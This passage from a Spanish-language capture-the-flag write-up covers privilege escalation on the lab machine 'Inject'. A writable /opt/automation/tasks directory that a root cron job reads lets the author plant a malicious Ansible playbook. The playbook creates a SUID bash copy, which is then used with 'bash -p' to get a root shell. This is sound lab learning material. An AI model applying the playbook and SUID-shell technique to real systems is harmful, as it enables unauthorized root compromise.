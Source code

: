 
...en su carpeta personal procedemos a leer la primera flag.

```bash
phil@inject:~$ cat user.txt 
be****************************36
phil@inject:~$ 

```
## Escalada de Privilegios
No encontramos ningun binario SUID o permiso sudo, pero si si vemos a los grupos que pertenecemos vemos un grupo extraño **staff**.
```bash
phil@inject:~$ id
uid=1001(phil) gid=1001(phil) groups=1001(phil),50(staff)
phil@inject:~$ 
```
Si listamos si tenemos capacidad para dicho grupo nos encontramos con estó.
```bash
phil@inject:~$ find / -group staff -print 2>/dev/null
/opt/automation/tasks
/root
/var/local
```
La ruta **/opt/automation/tasks** nos llama la atención.

```phil@inject:~$ ls /opt/automation/tasks/
playbook_1.yml
phil@inject:~$
```
Si miramos el archivo se modificó recientemente, por lo cual puede que exista una tarea cron.Si volvemos a volver a checkear el archivo se modifico 2 minutos después.
```bash
phil@inject:/opt/automation/tasks$ ls -lah
total 12K
drwxrwxr-x 2 root staff 4.0K Mar 13 01:46 .
drwxr-xr-x 3 root root  4.0K Oct 20 04:23 ..
-rw-r--r-- 1 root root   150 Mar 13 01:46 playbook_1.yml
phil@inject:/opt/automation/tasks$
```
Un archivo .YML buscamos en internet el nombre del arvhivo "playbook". Buscando en internet nos encotramos con este [blog](https://iamnasef.com/projects/ansible-privilege-escalation/) que nos lleva a un archivo de [github](https://github.com/iamnasef/ansible-privilege-escalation/blob/main/shell.yml). Creamos un archivo shell.yml con el siguiente contenido.

Esto copiara la bash en y la convertirá en SUID y podemos spawnear una shell como root.
```bash
---                                                                                                               
- name: shell                                                                                                  
  hosts: localhost
  become: yes

  tasks:
  - name: hack
    shell: "cp /bin/bash . && chmod +sx bash"
```
Una vez pasado los 2 minutos spawneamos la shell como root con:
```bash
/usr/bin/ansible-playbook shell.yml
./bash -p
```
Hurra!!!! somos root, procedemos a leer la flag del usuario root
```bash
bash-5.0# cat root.txt
4e****************************67
```